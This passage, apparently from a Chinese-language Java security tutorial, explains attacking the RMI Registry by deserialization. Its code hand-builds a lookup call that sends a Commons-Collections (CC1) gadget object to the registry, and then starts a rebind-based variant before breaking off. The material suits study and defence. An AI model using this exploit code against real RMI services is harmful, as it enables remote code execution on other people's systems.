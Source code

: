 2. 模仿 RMI 底层 `lookup` 发起请求的逻辑，可以编写以下攻击代码：
    ```java
    public static void main(String[] args) throws Exception {
        // 通过注册中心连接到服务器
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 通过服务名查找服务，并转型成接口
        IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
    
        // 自定义 lookup 然后发起请求
        myLookup(registry);
    }
    /**
     * 模拟 RMI RegistryImpl_Stub 的 lookup，手动对 Registry 发起请求，源代码中是将传入的 name(String) 进行序列化发过去，因此在原来的 lookup 上没法下手脚。
     * 因此只能模仿其原生的逻辑，writeObject() 序列化一个对象（而不是 String）发送过去
     * 
     * @param registry 注册中心
     */
    private static void myLookup(Registry registry) {
        try {
            // 拿到 RegistryImpl_Stub 的 UnicastRef
            UnicastRef unicastRef = (UnicastRef) ((RegistryImpl_Stub) registry).getRef();
    
            // 模拟 RMI RegistryImpl_Stub 的 lookup，手动对 Registry 发起请求
            Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"),
                                                     new Operation("java.lang.String list()[]"),
                                                     new Operation("java.rmi.Remote lookup(java.lang.String)"),
                                                     new Operation("void rebind(java.lang.String, java.rmi.Remote)"),
                                                     new Operation("void unbind(java.lang.String)")};
            StreamRemoteCall call = (StreamRemoteCall) unicastRef.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
            ObjectOutput out = call.getOutputStream();
            // 这里用了 CC1
            out.writeObject(getSerializedCC1Object());
            unicastRef.invoke(call);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    ```

3. 其实按照这个思路，服务端攻击 Registry 也可以重写 `rebind()` 来绕过“反序列化对象需要继承 `Remote`”：
    ```java
    public static void main(String[] args) throws Exception {
        // 实例化自定义类R
        IMyRemote myRemote = new MyRemoteImpl();
    
        // 通过 UnicastRemoteObject 将服务导出为远程服务接口，前提是远程接口没有继承 UnicastRemoteObject
        // IMyRemote myExportedRemote = (IMyRemote) UnicastRemoteObject.exportObject(myRemote, 0);
    
        // 通过注册中心，将 RMI 服务注册到 1099 端口
        // 远程拿到注册对象，这里为了演示方便，就先创建再远程获取
        LocateRegistry.createRegistry(1099);
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 如果注册中心和服务端在一起，上面的方法就要注释掉，改用下面的方法
        // Registry registry = LocateRegistry.createRegistry(1099);
    